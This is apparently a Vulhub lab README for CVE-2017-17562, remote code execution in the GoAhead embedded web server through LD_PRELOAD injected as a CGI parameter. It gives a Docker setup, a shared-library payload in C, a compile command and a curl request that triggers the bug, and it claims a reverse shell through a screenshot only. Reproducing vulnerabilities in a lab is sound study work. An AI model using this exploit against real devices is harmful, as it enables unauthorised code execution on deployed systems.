 # GoAhead Web Server HTTPd 'LD_PRELOAD' Remote Code Execution (CVE-2017-17562)

[中文版本(Chinese version)](README.zh-cn.md)

Embedthis GoAhead is the world's most popular, tiny embedded web server, which is deployed in hundreds of millions of devices and is ideal for the smallest of embedded devices.

GoAhead before 3.6.5 allows remote code execution if CGI is enabled and a CGI program is dynamically linked. This is a result of initializing the environment of forked CGI scripts using untrusted HTTP request parameters in the cgiHandler function in `cgi.c`. When combined with the glibc dynamic linker, this behaviour can be abused for remote code execution using special parameter names such as `LD_PRELOAD`. An attacker can POST their shared object payload in the body of the request, and reference it using /proc/self/fd/0.

References:

 - https://www.elttam.com.au/blog/goahead/
 - https://www.exploit-db.com/exploits/43360
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

## Vulnerable environment

Execute following commands to start a GoAhead 3.6.4:

```
docker-compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -shared -fPIC ./payload.c -o payload.so
```

Use curl to trigger the attack:

```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

The response header `Hello: world!` is printed to indicate that the code has been executed:

![](1.png)

A reverse shell is got:

![](2.png)